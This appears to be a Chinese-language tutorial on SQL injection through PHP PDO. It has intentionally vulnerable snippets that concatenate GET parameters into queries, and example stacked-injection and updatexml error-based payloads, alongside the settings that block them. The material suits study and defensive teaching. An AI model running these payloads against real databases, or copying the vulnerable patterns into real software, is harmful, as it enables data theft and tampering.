




PHP PDO & Injection Bypass
PDO：PHP 数据对象
PHP访问数据库定义了一个轻量级的一致接口。
PDO 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。
使用预处理和存储过程
PDO连接MySql数据库：
<?php
$dbms='mysql'; //数据库类型
$host='127.0.0.1'; //数据库主机名
$port='3306'; //数据库端口
$dbName='test';//使用的数据库
$user='root'; //数据库连接用户名
$pass='root'; //对应的密码
$dsn="$dbms:host=$host;port=$port;dbname=$dbName";
try {
$dbh = new PDO($dsn, $user, $pass); //初始化一个PDO对象
echo "连接成功<br/>";
/*你还可以进行一次搜索操作
foreach ($dbh->query('SELECT * from FOO') as $row) {
print_r($row); //你可以用 echo($GLOBAL); 来看到这些值
}
*/
$dbh = null;
} catch (PDOException $e) {
die ("Error!: " . $e->getMessage() . "<br/>");
}
//默认这个不是长连接，如果需要数据库长连接，需要最后加一个参数：array(PDO::ATTR_PERSISTENT => true) 变成这样：
$db = new PDO($dsn, $user, $pass, array(PDO::ATTR_PERSISTENT => true));
?>PDO多语句安全问题：
使用PDO中query()函数同数据库交互：
<?php$dbms='mysql';
$host='127.0.0.1';
$dbName='test';
$user='root';
$pass='root';
$dsn="$dbms:host=$host;dbname=$dbName";
try {
$pdo = new PDO($dsn, $user, $pass);
} catch (PDOException $e) {
echo $e;
}
$sql = "select * from user where id=1;";
$sql .= "create table test2 like user";
$stmt = $pdo->query($sql);while($row=$stmt->fetch(PDO::FETCH_ASSOC))
{
var_dump($row);
echo "";
}PDO默认支持多语句查询，如果php版本小于5.5.21或者创建PDO实例时未设置PDO::MYSQL_ATTR_MULTI_STATEMENTS为false时可能会造成堆叠注入
<?php
$dbms='mysql';
$host='127.0.0.1';
$dbName='test';
$user='root';
$pass='root';
$dsn="$dbms:host=$host;dbname=$dbName";
try {
$pdo = new PDO($dsn, $user, $pass);
}
catch (PDOException $e) {
echo $e;
}
$id = $_GET['id'];
$sql = "SELECT * from user where id =".$id;
$stmt = $pdo->query($sql);
while($row=$stmt->fetch(PDO::FETCH_ASSOC)){
var_dump($row);
echo "";
}
?>$id变量可控，以形成堆叠注入

禁止多语句执行：
new PDO($dsn, $user, $pass, array( PDO::MYSQL_ATTR_MULTI_STATEMENTS => false))PDO预处理安全问题
PDO分为模拟预处理和非模拟预处理。
模拟预处理是防止某些数据库不支持预处理而设置的，在初始化PDO驱动时，可以设置一项参数,PDO::ATTR_EMULATE_PREPARES，作用是打开模拟预处理(true)或者关闭(false),默认为true。PDO内部会模拟参数绑定的过程，SQL语句是在最后execute()的时候才发送给数据库执行。
非模拟预处理则是通过数据库服务器来进行预处理动作，主要分为两步：第一步是prepare阶段，发送SQL语句模板到数据库服务器；第二步通过execute()函数发送占位符参数给数据库服务器进行执行。
[1]模拟预处理动态拼接形成多语句执行（PHP<5.3.6）
<?php
$dbms='mysql';
$host='127.0.0.1';
$dbName='test';
$user='root';
$pass='root';
$dsn="$dbms:host=$host;dbname=$dbName";
try {
$pdo = new PDO($dsn, $user, $pass);
} catch (PDOException $e) {
echo $e;
}
//$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
$username = $_GET['username'];
$sql = "select id,".$_GET['field']." from user where username = ?";
$stmt = $pdo->prepare($sql);
$stmt->bindParam(1,$username);
$stmt->execute();
while($row=$stmt->fetch(PDO::FETCH_ASSOC))
{
var_dump($row);
echo "
";
}
?> 可以看到sql语句field字段可控，这样我们构造field，达到多语句执行的效果。

数据库中语句为：
select id,username from user;create table sss like user;select id from user where username=Z[2]模拟预处理报错注入(PHP<5.3.6)
上述代码，设置$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION); //打印报错信息
同样可以达到报错注入效果

在数据库中语句为：
select id,updatexml(1,concat(user(),0x7e,version()),1) from user;select id from user where username=Z[3]非模拟预处理报错注入
设置pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false); //表示是否使用PHP本地模拟prepare
：php对sql语句发送采用了prepare–execute方式，php对sql语句发送采用了prepare–execute方式
此时转义处理交由mysql server来执行，变量和SQL模板是分两次发送的
因此虽然field字段依旧可控，但是多语句不可执行
当设置$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);时，仍然可以进行报错注入

在数据库中语句为：
select id,updatexml(1,concat(user(),0x7e),1) from user where username=Y;
这里可进行报错注入是因为MySQL服务端prepare时报错，然后通过设置PDO::ATTR_ERRMODE将MySQL错误信息打印
在MySQL中执行prepare语句
prepare statm from “select id,updatexml(0x7e,concat(0x7e,user(),0x7e),0x7e) from user where username=?”;